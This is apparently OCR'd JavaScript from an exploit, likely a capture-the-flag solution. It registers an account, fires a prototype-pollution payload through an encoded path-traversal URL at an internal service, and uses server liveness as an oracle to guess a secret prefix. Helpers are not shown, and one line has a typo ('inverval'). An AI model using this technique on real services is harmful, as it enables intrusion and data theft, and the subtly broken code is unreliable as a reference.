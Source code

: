```html

const livenessProbe = async results => {
    return fetch(EXCESS_URL, { method: 'HEAD', mode: 'cors', cache: 'no-store' })
            .then(_ => results.push('alive'))
            .catch(_ => results.push('dead'));
};

const startLivenessCheck = (ctx, timeout) => {
    ctx.probes = [];
    ctx.results = [];
    ctx.initialized = true;

    ctx.interval = setInterval(
        () => ctx.probes.push(livenessProbe(ctx.results)),
        timeout,
    );
};

const stopLivenessCheck = async ctx => {
    if (ctx.initialized !== true) {
        return;
    }

    clearInterval(ctx.inverval);
    await sleep(100);

    await Promise.all(ctx.probes);

    return ctx.results;
};

const testPrefix = async (wnd, prefix) => {
    const random = Math.random().toString();

    const credentials = constructCredentials(prefix);
    if (!(await register(credentials))) {
        return 'registration failed';
    }

    const pollution = constructPollution(credentials);
    
    const ctx = {};

    try {
        startLivenessCheck(ctx, 2);

        await sleep(100);

        const url = `${INTERNAL_EXCESS_URL}/message/${random}%2f..%2f..%2fregister#${encodeURIComponent(pollution)}`;
        wnd.location.href = url;

        await sleep(2000);
    } finally {
        await stopLivenessCheck(ctx);
    }

    if (ctx.results.some(result => result == 'dead')) {
        return false;
    }

    return true;
};
```
